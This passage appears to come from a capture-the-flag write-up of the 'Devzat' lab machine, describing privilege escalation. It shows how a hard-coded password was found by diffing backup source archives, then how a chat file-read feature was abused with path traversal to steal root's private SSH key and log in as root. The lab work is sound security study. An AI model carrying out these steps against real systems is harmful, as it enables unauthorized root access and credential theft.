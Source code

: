 This feature needs a password that is in some backup location.

Searching for files that are owned by _catherine_:
```
find / -user catherine -ls 2>/dev/null | grep -v proc
```

The files _/var/backups/devzat-main.zip_ and _/var/backups/devzat-dev.zip_ are the backup files and can be downloaded to look for differences.
```
unzip devzat-main.zip
unzip devzat-dev.zip
```

Creating a list of all MD5 hashes:
```
find . -type f -exec md5sum {} \; | awk '{print $1}' > md5.list
```

Sorting unique MD5 hashes:
```
sort md5.list | uniq -c | grep ' 1 ' | awk '{print $2}' > unique_md5.list
```

Comparing the unique MD5 hashes to each other:
```
find . -type f -exec md5sum {} \; | grep -f unique_md5.list
```

The files _allusers.json_, _commands.go_ and _devchat.go_ differ each other in both directories.

By comparing the _commands.go_ files, the code of the new feature can be found:
```
diff dev/commands.go main/commands.go
```

In there is a hard-coded password:
```
(...)
// Check my secure password
       if pass != "CeilingCatStillAThingIn2021?" {
               u.system("You did provide the wrong password")
(...)
```

Using the _file_ feature in the chat on port 8443:
```
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
```

The feature reads files from the directory of root, so the private SSH key of root can be copied:
```
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
```

With this SSH key it is possible to login via SSH as root!
```
ssh -i root.key root@devzat.htb
```
